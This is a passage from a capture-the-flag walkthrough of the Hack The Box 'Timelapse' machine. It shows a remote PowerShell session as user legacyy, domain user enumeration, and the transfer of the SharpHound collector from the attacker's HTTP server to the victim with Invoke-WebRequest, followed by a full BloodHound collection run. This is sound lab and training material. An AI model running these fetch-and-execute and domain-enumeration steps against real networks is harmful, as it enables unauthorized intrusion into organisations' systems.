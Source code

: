 ```shell
```

I'm user `legacyy`!

**user.txt:**
```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> type user.txt
{Redacted}
```

## Privilege Escalation

### legacyy to svc_deploy

After gaining initial foothold, we need to escalate our privilege. To do so, we need to enumerate the system.

**Domain users:**
```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> net user /domain
[...]
-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
```

- Non-default domain user: `babywyrm`, `legacyy`, `payl0ad`, `sinfulz`, `svc_deploy`, `thecybergeek`, `TRX`

**We can also use Bloodhound and Sharphound to analyze the domain's attack paths.**

- **Transfer `SharpHound` collector:**

```
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|17:02:44(HKT)]
└> python3 -m http.server -d /opt/SharpHound 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> IWR -Uri http://10.10.14.6/SharpHound.exe -OutFile SharpHound.exe
*Evil-WinRM* PS C:\Users\legacyy\Desktop> ./SharpHound.exe --CollectionMethods All
2023-08-09T10:03:32.8558319-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
[...]
2023-08-09T10:04:17.7620823-07:00|INFORMATION|SharpHound Enumeration Completed at 10:04 AM on 8/9/2023! Happy Graphing!
*Evil-WinRM* PS C:\Users\legacyy\Desktop> ls
[...]
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/9/2023  10:04 AM          12287 20230809100416_BloodHound.zip
-a----         8/9/2023  10:03 AM         908288 SharpHound.exe
-ar---         8/9/2023   8:29 AM             34 user.txt
```
